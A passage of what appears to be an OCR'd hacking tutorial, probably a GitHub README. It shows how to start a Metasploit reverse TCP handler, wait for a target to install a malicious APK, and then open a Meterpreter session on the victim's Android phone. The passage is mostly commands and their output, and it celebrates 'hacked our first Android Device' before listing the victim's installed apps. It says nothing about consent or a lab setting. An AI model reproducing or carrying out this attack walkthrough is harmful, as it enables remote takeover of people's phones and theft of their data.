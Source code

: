 ```
   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.
  
> set LHOST 192.168.1.177  
LHOST => 192.168.1.177  
> set LPORT 4444  
LPORT => 4444  
  
> exploit
```
**Please Note:** - Set the LHOST & LPORT to your IP Address on YOUR computer and the Port you used earlier when we created the payload!  
Once your target has downloaded & installed the APK file, our terminal should look like this;  
```
[*] Started reverse TCP handler on 192.168.1.177:4444 
[*] Sending stage (78179 bytes) to 192.168.1.99
[*] Meterpreter session 1 opened (192.168.1.177:4444 -> 192.168.1.99:51660) at 2023-01-07 14:10:40 -0500

meterpreter > 
```
**SUCCESS!!!** We just hacked our first Android Device!  
  
## Meterpreter Commands  
What good does gaining access to the Device if we don't know what to do!?!?!

The first thing we can do is discover the background process running and then check out the sessions;  
```
meterpreter > background  
[*] Backgrounding session 1...  
  
meterpreter > sessions  
Active sessions
===============

  Id  Name  Type                        Information          Connection
  --  ----  ----                        -----------          ----------
  1         meterpreter dalvik/android  u0_a342 @ localhost  192.168.1.177:4444 -> 192.168.1.99:51660 (192.168.1.99)
  
meterpreter > sessions -i 1  
[*] Starting interaction with 1...  
```
  
Okay, so we officially connected our Kali Machine to our target's android phone! Now what?  
We can see the full list of the users applications like this;  
```
meterpreter > app_list  
meterpreter > app_list
Application List
================

  Name                                                                  Package                                                               Running  IsSystem
  ----                                                                  -------                                                               -------  --------
  3 Button Navigation Bar                                               com.android.internal.systemui.navbar.threebutton                      false    true
```